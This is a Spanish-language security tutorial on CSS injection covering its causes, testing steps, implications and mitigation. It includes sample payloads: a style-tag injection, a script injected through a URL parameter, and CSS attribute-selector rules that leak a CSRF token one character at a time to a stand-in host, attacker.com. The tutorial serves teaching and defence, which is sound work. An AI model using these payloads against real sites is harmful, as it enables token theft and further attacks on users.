 ## Inyección de CSS 

## Introducción

Esta vulnerabilidad se produce cuando una aplicación web incorpora una funcionalidad en la que el usuario es capaz de "colaborar" o "afectar" a los estilos CSS de una página web.
Esto ocurre cuando la aplicación web no filtra los datos introducidos antes de tratar de procesarlos como CSS, dándole a los atacantes la posibilidad de derivar a otros ataques mas peligrosos desde un CSSi (Defacement, CSRF, XSS, HTML i...).

## Causas comunes

Normalmente este tipo de vulnerabilidad ocurre debido a la falta de sanitización y filtrado de las entradas de los usuarios, o si no se implementa bien un CSP (*Content Security Policy*).

En este ejemplo vemos como podemos introducir una etiqueta HTML style y procesar y ejecutar código CSS.

```html
<textarea name="biografia">Mi nombre es Usuario Malicioso y <style>body { display: none; }</style> soy un hacker.</textarea>
```

Frente a esta inyección, hay muchas más, por ejemplo introduciendo el payload en la url:

```html
https://example.com/search?term=<script>document.body.style.backgroundColor='red';</script>
```

O tal vez la web usa las *cookies* almacenadas para personalizar un saludo, un atacante podría modificar el valor de la cookie en cuestión e introducir ahí nuestro payload.

## Pasos de explotación

1. **Identificación de Campos de Entrada del Usuario:**
    - Buscar en la aplicación web todos los campos de entrada donde los usuarios puedan proporcionar datos que sean interpretados como CSS, como formularios de comentarios, campos de búsqueda, campos de perfil, etc.
2. **Pruebas de Entrada:**
    - Introducir datos en los campos de entrada del usuario que podrían ser interpretados como código CSS, como etiquetas `<style>` o propiedades de estilo como `background-color`, `color`, etc.
3. **Observación de Resultados:**
    - Observar cómo la aplicación web procesa y muestra los datos ingresados en los campos de entrada. Si los estilos CSS se aplican correctamente y afectan la apariencia de la página, esto podría indicar la presencia de una vulnerabilidad de inyección de CSS.
4. **Exploración de Parámetros de URL:**
    - Analizar los parámetros de URL que son utilizados por la aplicación web para construir o modificar la apariencia de la página. Manipular estos parámetros para incluir código CSS malicioso y observar si se refleja en la página web.
5. **Revisión de Cookies:**
    - Revisar las cookies utilizadas por la aplicación web y analizar si contienen datos que podrían ser interpretados como CSS. Manipular estas cookies para incluir código CSS malicioso y observar si se refleja en la página web.
6. **Pruebas de Funcionalidades Dinámicas:**
    - Probar funcionalidades dinámicas de la aplicación web, como comentarios, mensajes de chat, áreas de perfil, etc., para identificar posibles puntos de entrada para la inyección de CSS.
## Implicaciones

La vulnerabilidad de inyección de CSS, tiene muchas implicaciones, por ejemplo se pueden usar selectores de elementos para tratar de descubrir información sensible, como el token CSRF:
```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

En este ejemplo se trata de seleccionar el input con el nombre *csrf* , a continuación mediante una sencilla expresión regular, el atacante crea un diccionario de estos selectores para por fuerza bruta comprobar si el *token csrf* comienza por una letra u otra, cuando comienza por una letra, se hace una petición GET, simulando cargar una imagen de fondo. La petición llega al servidor del atacante y poco a poco irá descubriendo el token.  [Fuente](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)

Normalmente el input que contiene el token csrf se le pone el atributo `(type="hidden")`, esto parece que puede dificultar lo anterior, ya que los elementos con la propiedad *hidden* no cargan imágenes, pero modificando un poco la expresión regular, conseguimos hacerle el *bypass*.

```css
input[name=csrf][value^=csrF] ~ * {
    background-image: url(https://attacker.com/exfil/csrF);
}
```

Con este cambio, los estilos se aplicarán en los componentes hermanos del input objetivo.

Como [hacktricks](https://book.hacktricks.xyz/v/es/pentesting-web/xs-search/css-injection) comenta, se puede usar esta vulnerabilidad para ir descubriendo información de la página web que carga los estilos, incluso si no tienes ni idea de que infroamcón puede tener, esto se consigue mediante los selectores **:has** y **:not** y jugando con expresiones regulares:
```html
<style>
html:has(input[name^="m"]):not(input[name="mytoken"]) {
background:url(/m);
}
</style>
<input name=mytoken value=1337>
<input name=myname value=gareth>
```

Como estos payloads, encontramos muchas variedades, CSSi tiene como objetivos principales la exfiltración de información, y derivar a otros ataques que permitan mas funcionalidad (CSRF,XSS...)

## Mitigación

La mitigación de este tipo de vulnerabilidad, consiste en validar las entradas del usuario antes de procesarlas como CSS, escapar caracteres especiales (`<`, `>`, `&`, `"`, `'` ) , configurar una buena implementación de CSP para controlar que recursos e imágenes pueden ser cargados.

## Referencias
- ChatGPT
- [Hacktricks/css-injection](https://book.hacktricks.xyz/v/es/pentesting-web/xs-search/css-injection)
- [Owasp](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/05-Testing_for_CSS_Injection)